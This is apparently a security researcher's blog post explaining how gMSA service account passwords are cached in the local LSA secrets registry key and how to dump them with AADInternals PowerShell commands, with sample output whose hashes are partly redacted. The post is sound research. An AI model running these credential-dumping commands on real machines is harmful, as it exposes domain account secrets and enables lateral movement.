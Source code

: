 # Getting gMSA password from local computer

As I mentioned earlier, if a computer needs to run a service as gMSA, it needs the password. 
The computer can fetch the password from AD, but what if the AD is unavailable?

The service must be able to start without contacting the domain controller, so the password must be stored locally somewhere..

## Password location
In one of my previous blogs on <a href="/post/adsync/" target="_blank">ADSync passwords</a>, I noticed that 
service account passwords were stored in registry at:
```
HKLM:\SECURITY\Policy\Secrets
```

Quick visit to registry reveleaded that LSASS stores also gMSA account passwords in the registry.

![gmsa in registry](/images/posts/gmsa_03.png)

As such, I was able dump the passwords with <a href="/aadinternals/" target="_blank">AADInternals</a> (requires local admin rights):

{{< highlight powershell >}}
# Get LSA secrets:
Get-AADIntLSASecrets | Where Name -Like "_SC_GMSA_{*"
{{< /highlight>}}

```
Name        : _SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_cda3685b92675ebbe3d56f9bc852aef55f6bee660447c19f4864486b112a50ad
Password    : {1, 0, 0, 0...}
PasswordHex : 01000000220100001000000012011a013b901a11d9a01[redacted]
PasswordTxt :  Ģ  ĒĚ逻ᄚꃙ﬚銒樶ﯮꖘﶴᓑ㾁驭屓ᨨ鍛뢍웾䨻汪ᇑ㜽ⱱ띵ꗯ멮큢㽓[redacted]
MD4         : {249, 119, 202, 116...}
SHA1        : {247, 92, 241, 94...}
MD4Txt      : f977ca74a5e7640ae65[redacted]
SHA1Txt     : f75cf15efd029b7bfb7[redacted]
```

Could this password actually be the same blob that is stored to AD? Let's find out!

{{< highlight powershell >}}
# Get gmsaADFS account password:
$gmsa2 = Get-AADIntLSASecrets | Where Name -Like "_SC_GMSA_{*")

# Parse blob
ConvertFrom-ADManagedPasswordBlob -Blob $gmsa2.Password
{{< /highlight>}}
